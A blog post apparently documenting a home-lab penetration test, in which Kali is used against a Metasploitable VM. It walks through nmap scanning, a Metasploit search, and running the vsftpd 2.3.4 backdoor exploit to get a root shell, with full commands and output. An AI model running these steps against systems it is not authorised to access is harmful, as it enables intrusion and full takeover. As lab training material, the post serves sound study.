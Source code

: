 # Let's hack stuff!

First and fore most, long time no see. The last couple of months flew by and I haven't really been in the mood of writing. 
Now I stated experimenting with Kali again and figured I might as well document it.

## The environment

I have set up a Kali VM - the atacker - and a Metasploitable VM - the target - in VirtualBox, that I will be using in this post. 
Kali is a Linux distro designed for hacking/pentesting and is loaded with tools. Metasploitable is an Ubuntu VM loaded with poorly 
configured applications that are easily hackable. I will post installation instructions in a future post, but most of it is dead simple and easily found online already. 

## The hack

This is a very simple exploit and took about ten minutes. The write up took significantly longer!

### Scanning the network

So after I have fired up my VMs I open the attacking machine and start a terminal. The first thing I want to do is find out where my target is so I 
turn to `nmap` and run (result edited):

    # nmap  192.168.56.0/24

    Nmap scan report for 192.168.56.103
    Host is up (0.00013s latency).
    Not shown: 977 closed ports
    PORT     STATE SERVICE
    21/tcp   open  ftp
    22/tcp   open  ssh
    23/tcp   open  telnet
    25/tcp   open  smtp
    53/tcp   open  domain
    80/tcp   open  http
    111/tcp  open  rpcbind
    139/tcp  open  netbios-ssn
    445/tcp  open  microsoft-ds
    512/tcp  open  exec
    513/tcp  open  login
    514/tcp  open  shell
    1099/tcp open  rmiregistry
    1524/tcp open  ingreslock
    2049/tcp open  nfs
    2121/tcp open  ccproxy-ftp
    3306/tcp open  mysql
    5432/tcp open  postgresql
    5900/tcp open  vnc
    6000/tcp open  X11
    6667/tcp open  irc
    8009/tcp open  ajp13
    8180/tcp open  unknown
 
I can identify the target by the loads of open ports. This is a virtual network so there are no other machines on the network, this makes finding
the target easier than it would be in the wild. In a real life scenario you would have to do some research in order to know what machine you should target.

Now that we have our target, `192.168.56.103` we can do a more advanced scan:

    # nmap -sV -O -p1-65535 192.168.56.103 > target
    
This will scan all the ports (`-p1-65535`) of particular machine, it will also try to detect the OS (`-O`) and further more it will try
to identify what versions the software listening to each open port are running (`-sV`). I save this to a file called `target` since I like to
reference the scan later on.

In this excercise I am only interested in the fisrt service running on port 21, the second scan returns the following:

    21/tcp open  ftp     vsftpd 2.3.4

We now have a bit more information about our target. We know the application name and version number, this will help us find an exploit.

### Finding an exploit

There are two things we can do now, either scan the machine with a vulnerability scanner or search for an exploit manually. 
I decided to do a quick manual search and launch a vulnerability scanner if I didn't get quick results. 

Metasploit is our friend here so I launch it with `#msfconsole` and do the following:

    msf > search vsftpd

    Matching Modules
    ================

       Name                                  Disclosure Date  Rank       Description
       ----                                  ---------------  ----       -----------
       exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  VSFTPD v2.3.4 Backdoor Command Execution

Jackpot! We found a vulnerability with an excellent rating that affects the exact version our target is running. 
Let's find out more, again the output is edited for brevity.

    msf> info exploit/unix/ftp/vsftpd_234_backdoor 
    
    Name: VSFTPD v2.3.4 Backdoor Command Execution
    Module: exploit/unix/ftp/vsftpd_234_backdoor
    Platform: Unix
    Privileged: Yes
    License: Metasploit Framework License (BSD)
    Rank: Excellent
    Disclosed: 2011-07-03

    Description:
      This module exploits a malicious backdoor that was added to the 
      VSFTPD download archive. This backdoor was introduced into the 
      vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 
      according to the most recent information available. This backdoor 
      was removed on July 3rd 2011.

This sounds really juicy so I will try it out. First I pick the exploit and show all options for it:

    msf > use exploit/unix/ftp/vsftpd_234_backdoor 
    msf exploit(vsftpd_234_backdoor) > show options

    Module options (exploit/unix/ftp/vsftpd_234_backdoor):

       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       RHOST                   yes       The target address
       RPORT  21               yes       The target port


    Exploit target:

       Id  Name
       --  ----
       0   Automatic

This tells me that I need to set the target, denoted by RHOST. I set it and show all available payloads:

    msf exploit(vsftpd_234_backdoor) > set RHOST 192.168.56.103
    RHOST => 192.168.56.103
    msf exploit(vsftpd_234_backdoor) > show payloads

    Compatible Payloads
    ===================

       Name               Disclosure Date  Rank    Description
       ----               ---------------  ----    -----------
       cmd/unix/interact                   normal  Unix Command, Interact with Established Connection

There is only a single payload available so I select that and launch my attack!


    msf exploit(vsftpd_234_backdoor) > set payload cmd/unix/interact 
    payload => cmd/unix/interact
    msf exploit(vsftpd_234_backdoor) > exploit

    [*] Banner: 220 (vsFTPd 2.3.4)
    [*] USER: 331 Please specify the password.
    [+] Backdoor service has been spawned, handling...
    [+] UID: uid=0(root) gid=0(root)
    [*] Found shell.
    [*] Command shell session 1 opened (192.168.56.104:33322 -> 192.168.56.103:6200) at 2014-11-12 13:45:57 -0500

Succes we have a shell, and as an added bonus:

    whoami
    root
    
### Summary

This exploit was a very simple challenge and I could execute it with very simple tools. 
Hopefully the next service (SSH running on port 22) will be a little tougher.
